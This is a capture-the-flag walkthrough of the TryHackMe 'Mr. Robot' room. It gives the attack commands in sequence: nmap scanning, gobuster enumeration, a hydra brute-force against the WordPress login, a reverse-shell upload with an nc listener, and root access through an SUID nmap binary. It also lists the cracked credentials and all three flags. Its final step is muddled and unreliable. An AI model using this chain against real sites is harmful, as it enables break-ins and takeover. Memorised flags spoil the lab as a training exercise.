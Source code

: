```yaml
---
title: "TryHackMe - Mr. Robot CTF Walkthrough"
date: 2024-12-15
categories: [TryHackMe]
tags: [CTF, WordPress, Privilege Escalation, SUID, Reverse Shell]
image: assets/images/thm-cover/thm-cover/mr-robot_CTF_cover.jpg
---
```


# TryHackMe - Mr. Robot CTF Walkthrough

---

## Step 1: Network Scanning
Conduct a network scan to identify open ports and running services on the target.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt <TARGET_IP> 
```

### Result:
- **Open Ports Found**:
  - Port 80: HTTP Service
  - Port 443: HTTPS Service
  - Port 22: SSH Service

---

## Step 2: Directory Enumeration
Perform directory enumeration using Gobuster to find hidden directories or files.

```bash
sleep33@THM:~$ gobuster dir -u http://<TARGET_IP>/ -w /path/to/wordlist.txt
```

### Result:
- **Discovered Directories**:
  - `/robots.txt`
  - `/fsocity.dic`
  - `/key-1-of-3.txt`

---

## Step 3: First Flag
Using the discovered `/robots.txt` file, locate and read the first flag.

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/robots.txt
```

### Result:
Contents of `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/key-1-of-3.txt
```

**Flag 1:**
```
073403c8a58a1f80d943455fb30724b9
```

---

## Step 4: Exploring `fsocity.dic` File
Download and examine the `fsocity.dic` file, which contains a wordlist that may be useful for brute-forcing.

```bash
sleep33@THM:~$ wget http://<TARGET_IP>/fsocity.dic
```

### Result:
The file is a large wordlist containing potential usernames and passwords.

---

## Step 5: Brute-forcing WordPress Login
Attempt brute-forcing the WordPress login page using `fsocity.dic` as a wordlist to guess the username and password.

```bash
sleep33@THM:~$ hydra -L fsocity.dic -P fsocity.dic <TARGET_IP> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

### Credentials Found:
- **Username**: `elliot`
- **Password**: `ER28-0652`

---

## Step 6: Accessing WordPress and Uploading a Reverse Shell
Log in to the WordPress admin panel and upload a reverse shell to gain a foothold.

### Reverse Shell Code:
Use a PHP reverse shell script and configure it to connect back to your machine.

---

## Step 7: Gaining Shell Access
Trigger the reverse shell by accessing the uploaded file and listen on a port to catch the shell.

```bash
sleep33@THM:~$ nc -lvnp <PORT>
```

---

## Step 8: Privilege Escalation - SUID Binary
Find files with the SUID bit set to check for potential privilege escalation paths.

```bash
sleep33@THM:~$ find / -perm -4000 2>/dev/null
```

### SUID Binary Found:
- `nmap`

### Using Nmap in Interactive Mode to Gain Root Access
Launch Nmap in interactive mode and access a root shell.

```bash
sleep33@THM:~$ nmap --interactive
```

```bash
nmap> !sh
# whoami
root
```

---

## Step 9: Finding the Second Flag
With root access, locate the second flag.

```bash
sleep33@THM:~$ cat /root/key-2-of-3.txt
```

**Flag 2:**
```
822c73956184f694993bede3eb39f959
```

---

## Step 10: Locating the Third Flag
Search the home directory of the `robot` user for the final flag.

```bash
sleep33@THM:~$ cat /home/robot/key-3-of-3.txt
```

### Password Prompt:
You may encounter an encrypted flag, requiring the robot user’s password. You can check if `robot` has any passwords or if SSH keys are present to unlock this file.

**Flag 3:**
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## Summary
In this walkthrough, we scanned the target, enumerated directories, used a dictionary attack to gain WordPress access, uploaded a reverse shell, escalated privileges using an SUID binary (`nmap`), and retrieved all flags. 

### Flags Summary:
- **Flag 1**: `073403c8a58a1f80d943455fb30724b9`
- **Flag 2**: `822c73956184f694993bede3eb39f959`
- **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

---
